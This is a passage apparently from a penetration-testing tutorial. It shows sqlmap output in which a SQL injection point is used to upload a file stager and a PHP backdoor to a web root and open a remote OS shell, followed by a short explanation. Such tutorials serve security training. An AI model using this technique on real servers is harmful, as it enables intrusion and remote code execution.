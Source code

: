     [*] starting @ 18:05:59 /2020-11-19/

    [18:05:59] [INFO] resuming back-end DBMS 'mysql'
    [18:05:59] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ...SNIP...
    which web application language does the web server support?
    [1] ASP
    [2] ASPX
    [3] JSP
    [4] PHP (default)
    > 4

    do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

    [18:06:07] [WARNING] unable to automatically retrieve the web server document root
    what do you want to use for writable directory?
    [1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/   htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
    [2] custom location(s)
    [3] custom directory list file
    [4] brute force search
    > 1

    [18:06:09] [WARNING] unable to automatically parse any web server path
    [18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
    [18:06:09] [WARNING] potential permission problems detected ('Permission denied')
    [18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
    [18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
    [18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
    [18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
    [18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

    os-shell> ls -la

    do you want to retrieve the command standard output? [Y/n/a] a

    command standard output:
    ---
    total 156
    drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
    drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
    -rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
    ...SNIP...

As we can see, this time SQLMap successfully dropped us into an easy interactive remote shell, giving us easy remote code execution through this SQLi.

Note: SQLMap first asked us for the type of language used on this remote server, which we know is PHP. Then it asked us for the server web root directory, and we asked SQLMap to automatically find it using 'common location(s)'. Both of these options are the default options, and would have been automatically chosen if we added the `--batch` option to SQLMap.
